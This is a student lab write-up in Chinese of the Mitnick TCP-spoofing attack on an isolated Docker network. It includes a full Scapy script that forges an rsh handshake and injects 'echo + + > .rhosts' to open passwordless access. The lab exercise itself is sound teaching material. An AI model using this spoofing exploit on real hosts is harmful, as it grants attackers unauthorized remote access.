 ### Mitnick Attack

在10.9.0.5上永久缓存：arp -s 10.9.0.6 02:42:0a:09:00:06

再10.9.0.1上利用sniff进行嗅探来自10.9.0.5[SYN, ACK]的包，并伪装，成功完成第一次应答：

![image-20211224161048036](https://s2.loli.net/2021/12/24/iWoRjTbQtGaNYAK.png)

第二次TCP连接用于错误信息的传递，同样sniff嗅探[SYN]的包，伪装应答，ip地址均来自嗅探的结果。TCP建立完成之后，即成功执行之前的命令。

将第一次连接的data设为：9090\x00seed\x00seed\x00echo + + > .rhosts\x00即可向.rhosts文件写入+ +

攻击成功

![image-20211224164615285](https://s2.loli.net/2021/12/24/OhjDt1MeC7LqQTS.png)

### 代码

```python
#!/usr/bin/python3
from scapy.all import *
tcp = TCP()
ip = IP(src="10.9.0.6", dst="10.9.0.5")
tcp.sport = 1023
tcp.dport = 514
tcp.flags = "S"
tcp.seq = 0x2000
package = ip/tcp
send(package)

def spoof(pkt):
    if pkt[TCP].flags == "SA":# Check whether it is a SYN+ACK packet or not;
        tcp = TCP()
        tcp.sport = 1023
        tcp.dport = 514
        tcp.flags = "A"
        tcp.window = pkt[TCP].window
        tcp.seq = pkt[TCP].ack
        tcp.ack = pkt[TCP].seq + 1
        data = '9090\x00seed\x00seed\x00echo + + > .rhosts\x00'
        package = ip/tcp/data
        send(package)
    elif pkt[TCP].flags == "S":
        tcp = TCP()
        tcp.flags = "SA"
        tcp.sport = pkt[TCP].dport
        tcp.dport = pkt[TCP].sport
        tcp.seq = 0x1000
        tcp.ack = pkt[TCP].seq + 1
        package = ip/tcp
        send(package)

myFilter1 = 'src 10.9.0.5 and dst 10.9.0.6 and tcp' # You need to make the filter more specific
sniff(iface='br-169b92b58b54', filter=myFilter1, prn=spoof)
```

